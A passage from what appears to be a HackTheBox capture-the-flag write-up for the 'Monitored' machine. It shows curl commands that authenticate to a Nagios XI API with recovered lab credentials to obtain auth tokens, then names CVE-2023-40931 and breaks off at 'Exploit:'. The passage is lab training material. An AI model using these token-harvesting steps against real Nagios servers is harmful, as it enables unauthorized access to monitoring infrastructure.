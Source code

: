 ![img_1.png](img/img_1.png)

- We can login using this cred to gain a token: ([link](https://support.nagios.com/forum/viewtopic.php?t=58783))

```
$ curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=500'
{
    "username": "svc",
    "user_id": "2",
    "auth_token": "c40c413ddd8101743e6783dbe3afc7d5c55fe1f1",
    "valid_min": 500,
    "valid_until": "Sun, 14 Jan 2024 11:09:24 -0500"
}

$ curl -XPOST -k -L 'https://nagios.monitored.htb/nagiosxi/api/v1/authenticate?pretty=1' -d 'username=svc&password=XjH7VCehowpR1xZB&valid_min=600' | grep token | awk -F '"' '{print $4}'
Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   236  100   184  100    52    669    189 --:--:-- --:--:-- --:--:--   861
c84a9dca5bd136863c75dfee62aee8e74760ab35
```

### 2.2 CVE-2023-40931

- Found a public vulnerability for this: [CVE-2023-40931](https://vuldb.com/?id.239985)

- Exploit:
